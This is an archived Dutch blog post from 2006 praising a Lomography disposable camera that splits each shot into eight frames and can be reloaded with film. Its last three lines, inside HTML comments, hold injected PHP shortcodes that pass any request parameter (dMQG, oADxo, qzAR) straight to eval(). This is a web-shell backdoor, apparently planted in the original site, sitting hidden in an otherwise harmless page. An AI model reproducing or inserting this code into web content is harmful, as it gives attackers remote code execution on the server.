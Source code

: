 ```yaml
---
title: "Fijne mechaniek"
date: 2006-03-26T11:01:09
permalink: "2006/03/26/fijne-mechaniek/"
tags: ["archive"]
layout: "archive-post"
---
```

Ik ben een grote [lomography](http://www.lomography.com/ "www.lomography.com") fan. Enkele jaren geleden heb ik samen met enkele andere een pak van 5 wegwerp toestelletjes gekocht. Het speciale er aan is dat elke foto opgesplitst is in 8 deeltjes. De 8 mini-fotootjes worden getrokken over een tijd van ongeveer 2 seconden, je krijgt dus een soort van fotostrip.

Enfin, het mooie aan de toestelletjes is dat je met een beetje prutsen er opnieuw een film in kan steken, dus je kan hem toch hergebruiken. En dat is wel handig, want het zou zonde zijn dit prachtig staaltje techniek slechts eenmalig te gebruiken.

<!– \[insert\_php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/php\] –>
